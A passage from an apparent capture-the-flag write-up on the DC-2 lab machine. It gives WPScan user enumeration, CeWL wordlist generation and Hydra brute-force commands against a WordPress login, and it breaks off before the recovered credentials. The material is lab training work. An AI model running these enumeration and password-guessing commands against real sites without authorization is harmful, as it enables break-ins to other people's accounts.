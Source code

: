I used WPScan to gather detailed information about the WordPress installation:

```shellscript
wpscan --url http://dc-2/ --enumerate u --api-token [API_TOKEN]
```

**Key findings:**

- WordPress version: 4.7.10 (vulnerable)
- Theme: Twenty Seventeen v1.2
- Users discovered: admin, jerry, tom
- 70+ vulnerabilities identified


### Flag 1 Discovery

Accessing the website revealed Flag 1 with important hints:

<img width="1232" height="640" alt="image" src="https://github.com/user-attachments/assets/1109a4a6-941a-4236-997a-10d22b9b625f" />




**Flag 1 message:**

- "Your usual wordlists probably won't work, so instead, maybe you just need to be cewl."
- "More passwords is always better, but sometimes you just can't win them all."


This hint suggested using CeWL (Custom Word List generator) to create a targeted wordlist.

## Password Cracking

### Custom Wordlist Generation

Following the hint from Flag 1, I used CeWL to generate a custom wordlist:

```shellscript
cewl -d 3 -m 5 -w corp_wordlist.txt http://dc-2/
```

This created a wordlist with 165 words extracted from the website.

### Brute Force Attack

I used Hydra to perform brute force attacks against the discovered users:

```shellscript
# Attack against tom
hydra -l tom -P corp_wordlist.txt 192.168.1.15 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:incorrect" -t 30

# Attack against jerry  
hydra -l jerry -P corp_wordlist.txt 192.168.1.15 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:incorrect" -t 30
```

**Successful credentials:**
